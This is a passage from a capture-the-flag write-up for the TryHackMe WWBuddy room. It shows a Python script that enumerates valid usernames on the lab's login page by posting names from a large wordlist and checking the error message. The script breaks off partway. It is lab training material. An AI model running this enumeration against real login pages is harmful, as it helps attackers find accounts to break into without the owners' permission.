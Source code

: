 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105055255.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105055305.png)

**In here, we can write a simple python script to enumerate usernames:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(url, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    requestResult = requests.post(url, data=loginData)
    print(f'[*] Trying username: {username:20s}', end='\r')

    if 'No account found with that username.' not in requestResult.text:
        print(f'[+] Found valid username: {username}')

def main():
    url = 'http://wwbuddy.thm/login/index.php'

    with open('/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt', 'r') as fd:
```